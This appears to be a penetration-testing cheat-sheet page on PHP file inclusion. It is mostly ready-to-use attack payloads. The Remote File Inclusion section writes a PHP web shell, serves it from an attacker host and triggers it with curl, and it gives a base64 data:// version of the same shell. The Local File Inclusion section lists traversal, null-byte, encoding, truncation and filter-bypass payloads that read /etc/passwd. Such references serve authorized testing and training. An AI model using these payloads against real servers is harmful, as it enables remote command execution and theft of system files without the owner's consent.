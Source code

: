 ```yaml
---
icon: file-code
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<target>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

```bash
echo '<?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
curl 'http://<target>/index.php?page=http://<attacker>/shell.txt&cmd=<comand>'
```

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<target>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<target>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<target>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<target>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Truncation

```powershell
http://<target>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<target>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<target>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
